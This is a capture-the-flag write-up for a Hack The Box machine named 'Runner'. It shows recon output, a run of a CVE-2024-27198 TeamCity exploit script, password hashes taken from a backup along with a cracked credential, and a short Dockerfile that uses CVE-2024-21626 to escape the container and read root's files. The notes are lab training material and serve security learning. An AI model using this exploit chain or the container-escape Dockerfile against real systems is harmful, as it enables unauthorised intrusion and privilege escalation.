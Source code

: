 User FLAG
-----

1. Scan ports

PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/
211/tcp  filtered 914c-g
7921/tcp filtered unknown
8000/tcp open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

2. Add runner.htb to /etc/hosts

## Searchsploit

```bash
searchsploit nagios nsca
Exploits: No Results
Shellcodes: No Results
```

## Feroxbuster

```bash
feroxbuster --insecure -o ferox -u http://runner.htb:8000 -m GET POST -w ~/Documents/Security/wordlists/common.txt
200      GET        1l        1w        3c http://runner.htb:8000/health
200     POST        1l        1w        3c http://runner.htb:8000/health
200      GET        1l        1w        9c http://runner.htb:8000/version
200     POST        1l        1w        9c http://runner.htb:8000/version
```

## Dirsearch

## Dig

```bash
user in ~/Documents/Proyectos/hack-the-box/machines/runner on main ● ● λ dig axfr runner.htb @10.129.244.212  
;; Connection to 10.129.244.212#53(10.129.244.212) for runner.htb failed: connection refused.
;; Connection to 10.129.244.212#53(10.129.244.212) for runner.htb failed: connection refused.
;; Connection to 10.129.244.212#53(10.129.244.212) for runner.htb failed: connection refused.

user in ~/Documents/Proyectos/hack-the-box/machines/runner on main ● ● λ dig @10.129.244.212 -x 10.129.244.212
;; communications error to 10.129.244.212#53: connection refused
;; communications error to 10.129.244.212#53: connection refused
;; communications error to 10.129.244.212#53: connection refused

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> @10.129.244.212 -x 10.129.244.212
; (1 server found)
;; global options: +cmd
;; no servers could be reached
```

## Whatweb

```bash
http://runner.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sales@runner.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.244.212], JQuery[3.5.1], PoweredBy[TeamCity!], Script, Title[Runner - CI/CD Specialists], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

## Wfuzz

```bash
wfuzz -c --hh=154 --hw=10 -w ~/Documents/Security/wordlists/subdomains-top1million-110000.txt -H "Host:FUZZ.runner.htb" -u http://runner.htb
## Nothing found
teamcity.runner.htb
```

## Exploit

```
Version 2023.05.3 (build 129390)
```

3. `python CVE-2024-27198.py -t http://teamcity.runner.htb -u test -p test`

4. Download backgrup and found database credentials

```bash
admin $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye
matthew $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
```

5. From the backup, we can see the SSH key of the user `john`
6. Login with the SSH key and get the user flag

Root FLAG
----

```
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:8111          0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:9443          0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:5005          0.0.0.0:*               LISTEN      -                                                                                         
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                                                                                         
tcp6       0      0 :::80                   :::*                    LISTEN      -                                                                                         
tcp6       0      0 :::22                   :::*                    LISTEN      -                                                                                         
tcp6       0      0 :::8000                 :::*                    LISTEN      - 
```

```bash
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb
## Login to portainer with matthew:piper123
```

1. Login to portainer with `matthew:piper123`

2. Create a new image with the following `Dockerfile`

```Dockerfile
FROM ubuntu:latest

WORKDIR /proc/self/fd/8

RUN cd ../../../../ && cat root/root.txt
```

Then we can see the root flag

## Links

- https://github.com/cdxiaodong/CVE-2024-21626/blob/main/docker-compose.yml
- https://medium.com/@sk3pper/play-with-cve-2024-21626-2b4377e9577f